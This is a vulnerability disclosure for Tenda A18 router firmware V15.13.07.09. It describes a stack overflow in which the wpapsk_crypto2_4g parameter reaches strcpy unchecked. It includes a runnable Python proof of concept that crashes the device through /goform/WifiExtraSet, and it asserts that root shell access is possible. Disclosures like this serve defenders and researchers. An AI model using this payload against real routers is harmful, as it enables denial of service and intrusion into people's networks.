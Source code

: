 # Tenda A18 V15.13.07.09 Stack overflow vulnerability by fromSetWirelessRepeat

## Firmware information

- Manufacturer's address: https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

I have verified that **Tenda A18 V15.13.07.09** products have stack overflow vulnerability, and other series products have not been verified for the time being.

## Vulnerability details

`fromSetWirelessRepeat`

![image-20230804111528647](./img/image-20230804111528647.png)

`fromSetWirelessRepeat` gets the parameter **wpapsk_crypto2_4g** from the user input, but does not verify the length of the user input, and then call `set_repeat24` function.

![image-20230804111632389](./img/image-20230804111632389.png)

`set_repeat24` also does not check the parameter, and directly uses the `strcpy` function to assign the parameter to the stack, resulting in **stack overflow vulnerability**.



## POC

```python
import requests


def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {
    'configured2_4g': 'ture',
    'configured5g': 'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'a' * 0x100,
    'wpapsk_key2_4g': '1234567890'
}

headers = {
    'Host': '192.168.0.1',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.0.1/goform/WifiExtraSet'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
```

By running the poc, you can see the crash.

With careful construction of the exp, we can finally get the root shell.







